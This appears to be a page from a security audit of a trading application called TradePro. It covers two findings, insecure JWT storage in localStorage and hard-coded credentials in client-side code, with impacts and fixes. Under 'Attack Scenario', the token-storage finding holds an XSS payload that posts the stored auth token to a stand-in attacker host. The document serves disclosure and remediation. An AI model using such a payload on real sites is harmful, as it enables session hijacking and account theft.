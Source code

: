 
### CVE-TRADEPRO-2025-002: Insecure Token Storage
**CVSS Score**: 8.5 (High)  
**Affected Components**: Session Management  
**Discovery Date**: 2025-05-28  

#### Description
Authentication tokens are stored in browser localStorage, making them vulnerable to XSS attacks and unauthorized access. This violates security best practices for financial applications.

#### Technical Details
**Storage Method**: Browser localStorage  
**Token Types**: JWT authentication tokens, session identifiers  
**Accessibility**: Accessible via JavaScript, vulnerable to XSS  

#### Vulnerability Impact
- **Token Theft**: XSS attacks can steal authentication tokens
- **Session Hijacking**: Stolen tokens enable unauthorized account access
- **Persistent Access**: Tokens remain accessible even after browser restart
- **Cross-Site Attacks**: Malicious sites can access stored tokens

#### Attack Scenario
```javascript
// XSS payload to steal tokens
<script>
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: localStorage.getItem('authToken')
  });
</script>
```

#### Remediation Steps
1. **Immediate**: Migrate to httpOnly cookies for token storage
2. **Implement**: Secure cookie attributes (HttpOnly, Secure, SameSite)
3. **Add**: Token encryption and integrity validation

---

### CVE-TRADEPRO-2025-003: Hard-coded Credentials Exposure
**CVSS Score**: 7.5 (High)  
**Affected Components**: API Configuration  
**Discovery Date**: 2025-05-28  

#### Description
Potential exposure of API keys and sensitive configuration data in client-side code creates risk of credential compromise and unauthorized system access.

#### Technical Details
**Location**: Client-side JavaScript bundles  
**Exposure Type**: API keys, service endpoints, configuration data  
**Accessibility**: Publicly accessible via browser developer tools  

